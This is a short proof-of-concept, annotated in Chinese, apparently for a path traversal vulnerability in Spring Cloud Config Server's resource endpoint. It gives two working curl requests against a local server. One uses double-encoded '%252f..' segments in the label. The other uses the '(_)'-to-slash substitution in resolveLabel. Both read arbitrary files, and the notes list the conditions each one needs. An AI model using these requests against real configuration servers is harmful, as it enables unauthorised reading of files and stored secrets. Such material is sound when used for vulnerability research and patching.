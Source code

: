 poc：

```


1.  `利用点1：`
2.  `curl http://127.0.0.1:9988/foo/profiles/%252f..%252f..%252f..%252fUsers%252fxuanyonghao%252ftmp/aaa.xxx`

4.  `读取/User/xuanyonghao/tmp/aaa.xxx文件`
5.  `foo 对应  {application}`
6.  `profiles 对应  {profiles}`
7.  `%252f..%252f..%252f..%252fUsers%252fxuanyonghao%252ftmp  对应  {label}`

9.  `todo 条件限制：`
10.  `todo 1.  文件必须有后缀，也就是.txt等等。`
11.  `todo 2. cloud: config: server:  native: search-locations: file:///tmp/{label}，此处的目录需要有{application}或{profiles}或{label}，因为在上述触发点会对url对应段进行替换进来location，导致目录穿越，但是会限制文件后缀`

13.  `利用点2：`
14.  `org.springframework.cloud.config.server.resource.ResourceController#resolveLabel(java.lang.String)`
15.  `利用此处把label处的(_)替换为/`
16.  `curl http://127.0.0.1:9988/foo/profiles/..%28_%29Users%28_%29xuanyonghao%28_%29tmp/aaa.xxx`

18.  `todo 条件限制：`
19.  `todo 1.  文件必须有后缀，也就是.txt等等。`
20.  `todo 2.  不像利用点1处，不需要配置{application}{profiles}{label}`


```